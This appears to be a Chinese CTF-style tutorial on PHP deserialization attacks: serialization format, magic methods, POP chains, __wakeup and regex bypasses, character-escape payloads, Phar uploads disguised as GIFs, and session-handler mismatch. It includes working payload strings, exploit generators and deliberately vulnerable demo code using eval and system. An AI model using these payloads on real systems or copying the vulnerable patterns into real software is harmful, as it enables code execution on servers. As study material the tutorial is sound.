## 0x00、序列化与反序列化

### 1、序列化与反序列化概念

 序列化就是将 对象object、字符串string、数组array、变量等，转换成具有一定格式的字符串，方便保持稳定的格式在文件中传输，以便还原为原来的内容。 

#### **形象点描述序列化与反序列化的过程：**

就相当于搬家过程中，比如一张桌子，不好运输，那么我们就将它给拆开来，按照规律记账：桌面木板几块，桌腿几条，组装方式...等等（属性），打包运输。至于说这张桌子在原来这里实现了什么功能（方法），**我们并不关心，也没有计入帐中**。运输到目的地之后，又重新取出来，组装还原（反序列化），至于怎么使用，就随我们重新定义。

php实现序列化和反序列化分别依赖两个函数：

**序列化： serialize() 返回字符串，此字符串包含了表示 value 的字节流，可以存储于任何地方。  
反序列化： unserialize() 对单一的已序列化的变量进行操作，将其转换回 PHP 的值。**

**eg:如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/php serialize0.png)

这是一个简单的 php 类，然后我们实例化以后对其属性进行了赋值，然后调用了 serialize() 并且输出，我们看一下输出的结果

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/序列化结果1.png)我们看到这个和刚刚的 json 长得有些不一样了，具体的含义我已经在途中有所标注（其中属性名和属性值的格式与前面对象名的格式类似我就没有重复说明）

#### **要点一：不同权限的属性，序列化后有所不同**

##### **(1)Puiblic 权限：原样**

他的序列化规规矩矩，按照我们常规的思路，该是几个字符就是几个字符，你看那个 test1 属性，是不是这样？

##### **(2)Private 权限：** %00类名%00属性名 

该权限是私有权限，也就是说只能 test类使用，于是乎 test 有着强烈的占有欲，于是在序列化的时候一定要在 private 属性前面加上自己的名字，向世界表明这个属性是我独自占有的，但是好像长度还是不对，还少了两个，怎么回事？

这样，我们将其序列化的结果存入一个文件中，我们使用 Hexdump 看一下内部的结构，为了去除浏览器对整个过程的影响我修改一下代码

```php
<?php 
class test {     
  private $flag = 'Inactive';
  protected $test = "test";     
  public $test1 = "test1";     
public function set_flag($flag)     {
  $this->flag = $flag;
}     
public function get_flag($flag)     {
  return $this->flag;     
} 
} 
$object = new test(); 
$object->set_flag('Active'); 
$data = serialize($object); 
file_put_contents("serialize.txt", $data); 
```

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/private 序列化.png)我们看到 test 的前后出现了两个 %00 ，也就是空白符，现在是不是字符数也凑够了

##### **(3)Protected 权限：**%00*%00属性名 

这个也很奇怪，但是没关系我们看 hexdump 的结果

**如图所示：**

[](https://picture-1253331270.cos.ap-beijing.myqcloud.com/protected 序列化.png)这里我就不详细说了，反正格式就是这

这个特性一定要非常的清楚，如果很模糊的话，在我们后期构造或者修改我们的攻击向量的时候很容易出现错误

#### **要点二：序列化只序列化属性，不序列化方法**

在前面形象举例中有提及，桌子实现的作用功能我们并不关心，也不记账。

因此请记住，**序列化他只序列化属性，不序列化方法**，这个性质就引出了两个非常重要的话题：

**(1)我们在反序列化的时候一定要保证在当前的作用域环境下有该类存在**

这里不得不扯出反序列化的问题，这里先简单说一下，反序列化就是将我们压缩格式化的对象还原成初始状态的过程（可以认为是解压缩的过程），因为我们没有序列化方法，因此在反序列化以后我们如果想正常使用这个对象的话我们必须要依托于这个类要在当前作用域存在的条件。

**(2)我们在反序列化攻击的时候也就是依托类属性进行攻击**

因为没有序列化方法嘛，我们能控制的只有类的属性，因此类属性就是我们唯一的攻击入口，在我们的攻击流程中，我们就是要寻找合适的能被我们控制的属性，然后利用它本身的存在的方法，在基于属性被控制的情况下发动我们的发序列化攻击（这是我们攻击的核心思想，这里先借此机会抛出来，大家有一个印象）

### 2、序列化与反序列化实例

```php
class Test {
    public $name = "s1ng";
    private $age = 19;
    protected $sex = "male";
    public function say_hello() {
        echo "hello";
    }
}
$class = new Test();
$class_ser = serialize($class);
print_r($class_ser);
echo "\n";
$class_unser = unserialize($class_ser);
var_dump($class_unser);
```

输出：

```php
O:4:"Test":3:{s:4:"name";s:4:"s1ng";s:9:"Testage";i:19;s:6:"*sex";s:4:"male";}
class Test#2 (3) {
  public $name =>
  string(4) "s1ng"
  private $age =>
  int(19)
  protected $sex =>
  string(4) "male"
}
//可以看到属性一个不落，并且按照之前的分析格式输出，但方法却不见了
```

## 0x01 魔术方法

### 1、php序列化与反序列化中常用的魔术方法：

```php
__wakeup() //执行unserialize()前，先会调用这个函数
__sleep() //执行serialize()前，先会调用这个函数
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据或者不存在这个键都会调用此方法
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当尝试将对象调用为函数时触发
```

其中需要强调的是：**__toString()触发方式比较多：**

```php
echo ($obj) / print($obj) 打印时会触发
反序列化对象与字符串连接时
反序列化对象参与格式化字符串时
反序列化对象与字符串进行比较时（PHP进行比较的时候会转换参数类型）
反序列化对象参与格式化SQL语句，绑定参数时
反序列化对象在经过php字符串函数，如 strlen()、addslashes()时
在in_array()方法中，第一个参数是反序列化对象，第二个参数的数组中有toString返回的字符串的时候toString会被调用
反序列化的对象作为 class_exists() 的参数的时候
```

构造与析构函数：

```php
<?php
class TestClass
{
    public function __construct() {
        echo "__construct()!!!\n";
    }
    public function __destruct() {
        echo "__destruct()!!!\n";
    }
}
$class = new TestClass();
echo "000\n";
$a = serialize($class);
echo "111\n";
$b = unserialize($a);
echo "222\n";
```

输出：

```php
__construct()!!!
000
111
222
__destruct()!!!
__destruct()!!!

进程已结束,退出代码0
```

**注意：**这里的两次__destruct()调用，一次是属于new创建出来的那个对象，而第二个则是属于unserialize()重新组装还原的那个对象。

### 2、魔术方法的用处

从上面的知识我们可以知道，对象的序列化和反序列化只能是里面的属性，也就是说我们通过篡改反序列化的字符串只能获取或控制其他类的属性，这样一来利用面就很窄，因为属性的值都是已经预先设置好的。那么我们拓展一下思维，我们是否可以找到一些类里面的方法呢来供我们使用呢？但是序列化又不序列化方法怎么办？这时候魔法方法就派上用场了，正如上面介绍的，魔法方法的调用是在该类序列化或者反序列化的同时自动完成的，不需要人工干预，这就非常符合我们的想法，因此只要魔法方法中出现了一些我们能利用的点，我们就能通过反序列化中对其对象属性的操控来实现对这些函数的操控，进而达到我们发动攻击的目的。

### **3、寻找 一般PHP 反序列化漏洞的方法/流程**

1. 寻找 unserialize() 函数的参数是否有我们的可控点
2. 寻找我们的反序列化的目标，重点寻找 存在 **wakeup() 或 destruct()** 魔法函数的类
3. **一层一层**地研究该类在魔法方法中使用的属性和属性调用的方法，看看是否有可控的属性能实现在当前调用的过程中触发的
4. 找到我们要控制的属性了以后我们就将要用到的代码部分复制下来，然后构造序列化，发起攻击即可

## 0x02 pop链构造

### **1、概念：**

**从现有运行环境**中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链,最终达到攻击者邪恶的目的 。

### 2、实例演示

这里就拿我写的一道题的简单wp作示范即可。

看这里：https://www.yuque.com/uf9n1x/gt8wco/xi1bt9b3xsrz2o3r

## 0x03 一些常用绕过小知识点

### 1、__wakeup()绕过（CVE-2016-7124）

```php
PHP5 < 5.6.25
PHP7 < 7.0.10
```

 **利用方式：序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**  

**eg:下面的demo**

```php
<?php
class test{
    public $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function __wakeup(){
        $this->a='666';
    }
    public function  __destruct(){
        echo $this->a;
    }
}
```

如果执行unserialize('O:4:"test":**1**:{s:1:"a";s:3:"abc";}');输出结果为**666**

而把对象属性个数的值**1增大到2**，再执行unserialize('O:4:"test":**2**:{s:1:"a";s:3:"abc";}');输出结果为abc，就达到了绕过__wakeup()的目的。


**似乎还有一种方法绕过？去掉序列化字符串末尾的一个花括弧，直接执行__destruct()方法？**

**后面想起来再补充。**

### **2、**绕过部分正则

**preg_match('/^O:\d+/')**   匹配序列化字符串是否是对象字符串开头,这在CTF中也出过类似的考点

#### 2.1. 利用加号绕过

**（注意在url里传参时+要编码为%2B）**

#### 2.2. serialize(array(a ) ) ; 

**a为要反序列化的对象**(*序列化结果开头是a，不影响作为数组元素的$a的析构*)

```php
<?php
class test{
    public $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function  __destruct(){
        echo $this->a.PHP_EOL;
    }
}

function match($data){
    if (preg_match('/^O:\d+/',$data)){
        die('you lose!');
    }else{
        return $data;
    }
}
$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}';
// +号绕过
$b = str_replace('O:4','O:+4', $a);
unserialize(match($b));

// serialize(array($a));
unserialize('a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}');
```



#### 2.3. 利用引用

```php
<?php
class test{
    public $a;
    public $b;
    public function __construct(){
        $this->a = 'abc';
        $this->b= &$this->a;
    }
    public function  __destruct(){

        if($this->a===$this->b){
            echo 666;
        }
    }
}
$a = serialize(new test());
```

上面这个例子**将 b 设 置 为a的引用**，可以使 a 永 远 b相等

#### 2.4. 利用 16 进制绕过过滤

**将示意字符串的s改为大写S时，其值会解析 16 进制数据**

例如：O:4:"Test":1:{s:3:"cmd";**s**:6:"whoami";}

可改为：O:4:"Test":1:{S:3:"\63md";**S**:6:"\77hoami";}

**example：**

```php
<?php
class test{
    public $username;
    public function __construct(){
        $this->username = 'admin';
    }
    public function  __destruct(){
        echo 666;
    }
}
function check($data){
    if(stristr($data, 'username')!==False){
        echo("你绕不过！！".PHP_EOL);
    }
    else{
        return $data;
    }
}
// 未作处理前 无法绕过
$a = 'O:4:"test":1:{s:8:"username";s:5:"admin";}';
$a = check($a);
unserialize($a);
// 做处理后 \75是u的16进制   可以绕过
$a = 'O:4:"test":1:{S:8:"\\75sername";s:5:"admin";}';
$a = check($a);
unserialize($a);
```

### 3、php7.1+反序列化对类属性不敏感

我们前面说了如果变量前是protected修饰，序列化结果会在变量名前加上\x00*\x00

但在特定版本7.1以上则对于类属性不敏感，比如下面的例子即使没有\x00*\x00也依然会输出abc

```php
<?php
class test{
    protected $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function  __destruct(){
        echo $this->a;
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');
```

### 4、php反序列化字符逃逸

PHP在反序列化时，底层代码是以 **;** 作为字段的分隔，以 **}** 作为结尾(**字符串除外**)，并且是**根据长度判断内容**的 ，同时反序列化的过程中必须严格按照序列化规则才能成功实现反序列化 。

字符逃逸的本质其实也是闭合，类似于注入思想，但是它分为两种情况，一是**字符变多**，二是**字符变少**。

#### 4.1.过滤导致字符变多的情况

```php
<?php
function filter($string){
    $filter = '/p/i';
    return preg_replace($filter,'WW',$string);
}
$username = $_GET['username'];
$age = '24';
$user = array($username, $age);
var_dump(serialize($user));
echo "<pre>";
$r = filter(serialize($user));
var_dump($r);
var_dump(unserialize($r));
?>
```

 这里通过filter()函数对我们输入的内容进行检查，将字符p替换成ww，再进行反序列化。  

我们传入不含p的字符串，正常序列化并输出：



但 当输入的内容存在p字符的时候，由于过滤之后的字符数变多了，不符合序列化的规则，所以进行反序列化的时候会失败并报错：



 这里就可以用注入的思想加以利用，比如，如果我们想吧年龄进行修改，那么是否可以通过构造username的值来使得age的值改变？直接进行尝试：传值：

```php
payload:
?username=pppppppppppppppp";i:1;s:2:"18";}
```



分析：

1. 首先是构造age值，序列化后的字符 ";i:1;s:2:"18";} ，前面的 " 是为了闭合前一个元素username的值，最后的 ;} 是为了闭合这一个数组，抛弃后面的内容。
2. 然后数上面构造的这一串有多少个字符？16个，因此需要通过filter()函数之后变多16个字符，使得我们构造的这一部分内容能够逃出username的范围，称为独立的一个元素。由于这里一个字符p会变成2个w字符，因此每一个p就会多出一个字符，所以这里需要16个字符p。
3. 核心思想就是：我想注入的内容有多少字符，就需要使多少个字符逃逸出来，怎么逃逸呢？利用他的规则，它可以使符合检测的字符一变二，相当于多出一个，那我就给你那么多无用字符，让你吞掉，再构造闭合，我的内容就逃逸出来了。至于后面多的原有字符怎么办？不理会。它对反序列化没有影响。

#### 4.2. 过滤导致字符减少

字符减少就是后端对我们输入的序列化后的字符进行替换成为长度更短的字符

```php
<?php
function filter($string){
    $filter = '/xx/i';
    return preg_replace($filter,'s',$string);
}
class
$username = $_GET['username'];
$age = $_GET['age'];
$user = array($username, $age);
var_dump(serialize($user));
echo "<pre>";
$r = filter(serialize($user));
var_dump($r);
var_dump(unserialize($r));
```

还是同样的代码，只不过过滤逻辑变成了减少替换。简单来说，就是前面减少，导致后面的字符被吃掉，从而执行了我们后面的代码。

传值含两个x:

加以利用：比如篡改第二个属性：

```php
payload:
?username=uf9n1xxxxxxxxxxxxxxxxxxxxxxxxxx&age=A";i:1;s:5:"hahah";}
```



分析：观察我们想篡改的第二个属性的位置，以及它的闭合方法：

那么就将第二个属性进行构造，闭合前面并写入我们想要的内容：

```php
age=";i:1;s:5:"hahah
```

进行传入测试：

好，测试出来如图，既然有12个字符需要前面来吞掉，那么根据他的规则，我们只需要给他24个违法字符，就可以达成我们的目的：

```php
payload:
?username=uf9n1xxxxxxxxxxxxxxxxxxxxxxxx&age=";i:1;s:5:"hahah
```

这个payload后面没有 **";}** 部分，是因为我们的篡改部分在序列化字符串最后，它原本就有，就帮我们把格式补充完整了。当然，你想要加上也无所谓，因为反序列化严格按照格式来，你加上，就把后面它自己的部分舍弃了，不影响我们的反序列化过程。如下payload也是可以的：

```php
payload:
?username=uf9n1xxxxxxxxxxxxxxxxxxxxxxxx&age=";i:1;s:5:"hahah";}
```

## 0x04 Phar反序列化攻击

### **1、原先 PHP 反序列化攻击的必要条件**

```php
首先我们必须有 unserailize() 函数
其次unserailize() 函数的参数必须可控
```

但这在了解phar之后，就完全不同了：

 phar 文件包在生成时会以**序列化**的形式存储**用户自定义的 meta-data** ，因此配合 phar:// 我们就能在**文件系统函数 file_exists()/ is_dir()/fopen()/copy()/file_exists()和filesize()等**，参数可控的情况下实现自动的反序列化操作，于是我们就能通过构造精心设计的 phar 包在没有 unserailize() 的情况下实现反序列化攻击，从而将 PHP 反序列化漏洞的触发条件大大拓宽了，降低了我们 PHP 反序列化的攻击起点。接下来详细分析：

### 2、phar文件结构

#### 2.1. 结构

```php
stub:phar文件的标志，必须以 xxx __HALT_COMPILER();?> 结尾，否则无法识别。xxx可以为自定义内容。
manifest:phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。
             //这部分还会以序列化的形式存储用户自定义的meta-data，这是漏洞利用最核心的地方。
content:被压缩文件的内容
signature (可空):签名，放在末尾。
```

####  2.2. demo

根据文件结构我们来自己构建一个phar文件，php内置了一个Phar类来处理相关操作。

**注意****：要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件。**

```php
<?php
    class TestClass{
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestClass();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test1"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
```

运行后， 会生成一个phar.phar在当前目录下 。打开可以明显看到， meta-data是以序列化的形式存储的 。



### 3、受影响的函数

 phar文件本质上是一种压缩文件，会以序列化的形式存储用户自定义的meta-data。当受影响的文件操作函数调用phar文件时，会自动反序列化meta-data内的内容。  

| **受影响的函数列表** |               |              |                   |
| -------------------- | ------------- | ------------ | ----------------- |
| fileatime            | filectime     | file_exists  | file_get_contents |
| file_put_contents    | file          | filegroup    | fopen             |
| fileinode            | filemtime     | fileowner    | fikeperms         |
| is_dir               | is_executable | is_file      | is_link           |
| is_readable          | is_writable   | is_writeable | parse_ini_file    |
| copy                 | unlink        | stat         | readfile          |

具体详情可以看这篇文章：https://blog.zsxsoft.com/post/38

整理如下：（**引用自Y4tacker师傅**）

```php
//exif
exif_thumbnail
exif_imagetype
    
//gd
imageloadfont
imagecreatefrom***系列函数
    
//hash
    
hash_hmac_file
hash_file
hash_update_file
md5_file
sha1_file
    
// file/url
get_meta_tags
get_headers
    
//standard 
getimagesize
getimagesizefromstring
    
// zip   
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
$z = 'compress.bzip2://phar:///home/sx/test.phar/test.txt';
$z = 'compress.zlib://phar:///home/sx/test.phar/test.txt';

//配合其他协议：(SUCTF)
//https://www.xctf.org.cn/library/details/17e9b70557d94b168c3e5d1e7d4ce78f475de26d/
//当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
//php://filter/read=convert.base64-encode/resource=phar://phar.phar

//Postgres pgsqlCopyToFile和pg_trace同样也是能使用的，需要开启phar的写功能。
<?php
	$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
	@$pdo->pgsqlCopyFromFile('aa', 'phar://phar.phar/aa');
?>
    
// Mysql
//LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper
//配置一下mysqld:
//[mysqld]
//local-infile=1
//secure_file_priv=""
    
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'testtable', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
?>
```

###  4、 流包装器

php通过用户定义和内置的“流包装器”实现复杂的文件处理功能。内置包装器可用于文件系统函数，如(fopen(),copy(),file_exists()和filesize()）。 phar://就是一种内置的流包装器。  其他常见的流包装器还有：

```php
file:// — 访问本地文件系统，在用文件系统函数时默认就使用该包装器
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```

对上面总结的受影响的函数，这里随意挑一个出来做一个示例看看效果：

执行如下脚本，构造一个phar文件：

```php
<?php
class TestClass{
    public $data;
    public function __destruct(){
        echo $this -> data;
    }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置自定义stub
$o = new TestClass();
$o->data = "I am uf9n1x";
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test1"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

执行如下代码演示：

```php
file_get_contents('phar://phar.phar/test.txt');
```

可以看到，我们成功的在没有 unserailize() 函数的情况下，通过精心构造的 phar 文件，再结合 phar:// 协议，配合文件系统函数，实现了一次精彩的反序列化操作。

### 5、漏洞利用条件

```php
phar文件要能够上传到服务器端。
要有可用的魔术方法作为“跳板”。
文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤。
```

### 6、绕过方式

#### **6.1. 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://等绕过**

```php
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/resource=phar:///test.phar/test.txt
```

#### **6.2. 当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。**

```php
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

#### **6.3. GIF格式验证可以通过在文件头部添加GIF89a绕过**

在前面分析phar的文件结构时可能会注意到，php识别phar文件是通过其文件头的stub，更确切一点来说是**__HALT_COMPILER();?>**这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以**通过x**采用这种方法能绕过很大一部分上传检测。  

```php
<?php
class TestObject {
}
    $phar = new Phar('img.phar');
    $phar -> startBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');   //设置stub，增加gif文件头
    $phar ->addFromString('test.txt','test');  //添加要压缩的文件
    $object = new TestObject();
    $object -> data = 'uf9n1x';
    $phar -> setMetadata($object);  //将自定义meta-data存入manifest
    $phar -> stopBuffering();
?>
```

 采用这种方法能绕过很大一部分上传检测。  

### 7、实战简单利用

```php
<!DOCTYPE html>
<html>
  <head>
    <title>upload file</title>
  </head>
  <body>
    <form action="./04-upload.php" method="post" enctype="multipart/form-data">
      <input type="file" name="file" />
      <input type="submit" name="Upload" />
    </form>
  </body>
</html>
    
    
    
<?php
  if (($_FILES["file"]["type"]=="image/gif")&&(substr($_FILES["file"]["name"], strrpos($_FILES["file"]["name"], '.')+1)=='gif')) {
  echo "upload:".$_FILES['file']['name'];
echo "type:".$_FILES['file']['type'];
echo "temp file:".$_FILES['file']['tmp_name'];

// 处理上传文件
if (file_exists('upload_file/'.$_FILES['file']['name'])) {
  echo $_FILES['file']['name']."has already exited";
}
else{
  move_uploaded_file($_FILES['file']['tmp_name'], "upload_file/".$_FILES['file']['name']);
  echo "stored in "."upload_file/".$_FILES['file']['name'];
}
}
else{
  echo "invalid file,you can only upload gif file!";
}
<?php

class Test
{
	public $data = 'echo "hello world!"';
	function __construct()
	{
		eval($this->data);
	}
}
if ($_GET['file']) {
	file_exists($_GET['file']);
}
```

 绕过思路：GIF格式验证可以通过在文件头部添加GIF89a绕过。  

```php
<?php
class TestObject{
}
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$o = new TestObject();
$o->data = "phpinfo();";
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
//生成phar.phar文件
```

 生成的phar.phar修改后缀名phar.gif，再上传该文件，用phar协议解析：  

```php
http://localhost/tmp/04-evil.php?file=phar://upload_file/phar.gif
```

## 0x05 Session反序列化(**php>=5.4**)

### 1.Session到底是啥？

Session是浏览器和服务器之间交互的会话，会话是啥呢？就是我问候你好吗？你回答说很好。就是一次会话，那么对话完成后，这次会话相当于就结束了，但为什么会出现Session会话呢？因为我们用浏览器访问网站用的是http协议，http协议是一种无状态的协议，就是说它不会储存任何东西，每一次的请求都是没有关联的，无状态的协议好处就是快速；但它也有不方便的地方，比如说我们在login.php登录了，我们肯定希望在index.php中也是登录的状态，否则我们登录还有什么意义呢？但前面说到了http协议是无状态的协议，那访问两个页面就是发起两个http请求，他们俩之间是无关联的，所以无法单纯的在index.php中读取到它在login.php中已经登陆了的；为了解决这个问题，cookie就诞生了，cookie是把少量数据存在**客户端**，它在一个域名下是全局的，相当于php可以在这个域名下的任何页面读取cookie信息，那只要我们访问的两个页面在同一个域名下，那就可以通过cookie获取到登录信息了；但这里就存在安全问题了，因为cookie是存在于客户端的，那用户就是可见的，并且可以随意修改的；那如何又要安全，又可以全局读取信息呢？这时候Session就出现了，其实它的本质和cookie是一样的，只不过它是存在于服务器端的。

### 2.Session的产生和保存

上面讲了Session产生的原因，那它具体长啥样子呢？这里我们用php中的Session机制，因为后面讲的反序列化也是基于php的嘛

首先，当我们需要使用Session时，我们要首先打开Session，开启Session的语句是session_start();，这个函数没有任何返回值，既不会成功也不会报错，它的作用是打开Session，并且随机生成一个32位的session_id，session的全部机制也是基于这个session_id，服务器就是通过这个唯一的session_id来区分出这是哪个用户访问的：

```php
<?php
  highlight_file(__FILE__);
session_start();
echo "session_id(): ".session_id()."<br>";
echo "COOKIE: ".$_COOKIE["PHPSESSID"];
```



这里可以看出session_id()这个系统方法是输出了本次生成的session_id，并且存入了COOKIE中，参数名为PHPSESSID，这两个值是相同的，而且只要浏览器一直不关，无论刷新多少次它的值都是不变的，但当你关掉浏览器之后它就消失了，重新打开之后会生成一个新的session_id，session_id就是用来标识一个用户的，就像是一个人的身份证一样，接下来就来看看session它是怎么保存的：

它是保存在服务器中的临时目录下的，保存的路径需要看php.ini的配置，我的是保存在D:\phpStudy\PHPTutorial\tmp\tmp这个路径下的，我们可以打开来看看：



可以看到它的储存形式是文件名为**sess**+_+**session_id**，那我们能不能通过修改COOKIE中PHPSESSID的值来修改session_id呢？

然后刷新页面，可以发现成功了，成功修改了session_id的值，并且去保存的路径下去看发现也成功写进去了：







但由上图可知，它的文件内容是为空的，里面什么都没有，那我们能不能尝试往里面写入东西呢？依然在a.php中操作，给它赋个值：



发现成功写进去了，它的内容就是将键值对**序列化**之后的结果

我们把大致过程总结一下：

就是HTTP请求一个页面后，如果用到开启session，会去读COOKIE中的PHPSESSID是否有，如果没有，则会新生成一个session_id，先存入COOKIE中的PHPSESSID中，再生成一个sess_前缀文件。当有**写入**$_SESSION的时候，就会往sess_文件里序列化写入数据。当**读取**到session变量的时候，先会读取COOKIE中的PHPSESSID，获得session_id，然后再去找这个sess_session_id文件，来获取对应的数据。由于默认的PHPSESSID是临时的会话，在浏览器关闭后就会消失，所以，当我们打开浏览器重新访问的时候，就会新生成session_id和sess_session_id这个文件。

### 3.有关的配置

好了，上面铺垫了这么多，应该明白Session是什么以及Session的机制了，下面就开始正式进入正题，来看看Session反序列化

首先，我们先去php.ini中去看几项与session有关的配置：

1.session.save_path：这个是session的存储路径，也就是上文中sess_session_id那个文件存储的路径

2.session.auto_start：这个开关是指定是否在请求开始时就自动启动一个会话，**默认为Off**；如果它为On的话，相当于就先执行了一个session_start()，会生成一个session_id，一般来说这个开关是不会打开的

3.session.save_handler：这个是设置用户自定义session存储的选项，默认是files，也就是以文件的形式来存储的，当然你也可以选择其它的形式，比如说数据库啥的

4.session.serialize_handler：这个是最为重要的一个，用来定义session序列化存储所用的处理器的名称，不同的处理器序列化以及读取出来会产生不同的结果；默认的处理器为php，常见的还有php_binary和php_serialize，接下来来一个一个的看它们：

首先是php，因为它默认就是php，所以说用的应该是最多的，它处理之后的格式是**键名+竖线|+经过****serialize()**序列化处理后的值**



然后我们来看php_binary，首先我们把处理器换成php_binary需要用语句ini_set('session.serialize_handler','php_binary');这个处理器的格式是**键名的长度对应的 ASCII 字符 ＋ 键名 ＋ 经过 serialize() 函数序列化处理后的值**；注意这个键名的长度所所对应的ASCII字符，就比如说键名长度为4，那它对应的就是ASCII码为4的字符，是个不可见字符EOT，具体可见下表，从1到31都是不可见字符

所以说它最后的结果如下，框框代表的就是不可见字符：



最后我们来看php_serialize，这个处理器需要**php版本>5.5.4**才能使用，首先我们还是得先用ini_set进行设置，语句如下：ini_set('session.serialize_handler','php_serialize');这个的格式是**直接进行序列化，把****session****中的键和值都会被进行序列化操作**，然后把它当成一个数组返回回来：



#### 总结一下如下表：

| php_serialize | 经过serialize()函数序列化数组                            |
| ------------- | -------------------------------------------------------- |
| php           | 键名+竖线+经过serialize()函数处理的值                    |
| php_binary    | 键名的长度对应的ascii字符+键名+serialize()函数序列化的值 |

### 4.Session反序列化原理

讲了这么多，相信很多人还是一头雾水，那为什么会产生Session反序列化漏洞呢？这个问题其实也困扰了我很久，以前我也是只知道操作但不清楚原理，知道前面加个|就可以成功但至于为什么就一脸懵逼，因为我们都知道Session反序列化是不需要unserialize()函数就可以实现的，那这具体是怎么实现的呢？今天就来把它彻底搞懂：

首先我们再来看看session_start()函数，前面我们看到的是没有打开Session的情况下它是打开Session并且返回一个session_id，但假如我们前面就已经打开了Session呢？这里我们再来看看官方文档：

这里重点看我框了的内容，尤其我箭头指向的地方，它会自动反序列化数据，那就很漂亮啊！这里就解决了没有unserialize()的问题，那我们可不可以考虑先把序列化后的数据写入sess_session_id文件中，然后在有反序列化漏洞页面刷新页面，由于这个页面依然有session_start()，那它就去读取那个文件的内容，然后自动进行反序列化操作，这样就会触发反序列化漏洞，完美！！

这个思路理论上是可以成功的，但这里还有一个核心问题没有解决，就是说我们怎么让它**反序列化的是我们传入的序列化的内容**，因为我们传入的是键值对，那么session序列化存储所用的处理器肯定也是将这个**键值对**写了进去，那我们怎么让它正好反序列化到我们传入的内容呢？这里就需要介绍出**两种处理器的差别**了，php处理器写入时的格式为键名+竖线|+经过serialize()序列化处理后的值那它读取时，肯定就会以竖线|作为一个分隔符，前面的为键名，后面的为键值，然后将键值进行**反序列化**操作；而php_serialize处理器是直接进行序列化，然后返回**序列化后的数组**，那我们能不能在我们传入的序列化内容前加一个分隔符|，从而正好**序列化我们传入的内容呢**？

这肯定是可以的，而这正是我们Session反序列化的原理，如果看到这有点发晕的话，没关系，咱接着往下看，接下来咱来分析一个例子

### 5.案例分析( 可以对session的进行赋值  )

首先我们来写一个存在反序列化漏洞的页面：

```php
<?php
  highlight_file(__FILE__);
ini_set('session.serialize_handler', 'php');
session_start();
class Test{
  public $code;
  function __wakeup(){
    eval($this->code);
  }
}
```

这应该是很简单的一个反序列化，反序列化后会先直接进入__wakeup()，然后就eval执行任意代码了，我们先写个exp：

```php
<?php
  class Test{
  public $code='phpinfo();';
  }
  $a = new Test();
echo serialize($a);
?>
```

然后我们再写一个页面，因为这里既没有传参的点也没有反序列化的点，相对于有漏洞利用不了，那我们就写一个利用它的页面sess.php：

```php
<?php
  highlight_file(__FILE__);
ini_set('session.serialize_handler', 'php_serialize');
session_start();
if(isset($_GET['test'])){
  $_SESSION['test']=$_GET['test'];
}
  ?>
```

有了这个页面我们就可以把想要的内容写入到Session中了，然后就可以在有漏洞的页面中执行反序列化了，接下来开始操作，首先运行exp.php：


然后我们通过sess.php将运行结果写入Session中，记得在前面加上|：



然后我们去看它成功写入Session没有，并且看看写入的内容是什么：



